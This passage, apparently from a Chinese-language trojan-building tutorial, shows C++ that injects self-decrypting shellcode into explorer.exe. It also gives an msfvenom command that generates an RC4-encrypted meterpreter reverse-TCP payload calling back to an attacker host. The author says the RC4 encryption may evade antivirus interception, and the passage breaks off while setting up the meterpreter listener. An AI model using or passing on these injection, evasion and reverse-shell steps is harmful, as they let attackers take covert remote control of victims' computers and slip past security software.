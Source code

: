 ```cpp
  // 注入函数内部自解密shellcode
  inject_shellcode(explorer_pid, shellcode, sizeof(shellcode));

  return 0;
}
```
有过 Windows编程经验的大佬肯定了解, 这里我们写了`WinMain` 函数就可以删除`main`函数了。

这里我使用shellcode远程注入 `explorer.exe` 进程来执行我们的木马。你也可以使用我们之前的方法。

### 生成rc4加密通讯的 meterpreter shellcode
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp_rc4 LHOST=192.168.1.3 LPORT=8844 RC4PASSWORD=ncvt -f c
```
![](images/shell3.png)

在找资料的时候发现,好像使用rc4加密通讯的话可以反之杀软动态拦截,管他呢,其实也就换一下shellcode,我们把新的shellcode使用 `encry_shellcode` 函数加密一下就可以了。

### Ubuntu 18.04 启动 meterpreter 监听
参数就下面这些 payload 使用的 `windows/x64/meterpreter/reverse_tcp_rc4`
记得设置 `RC4PASSWORD`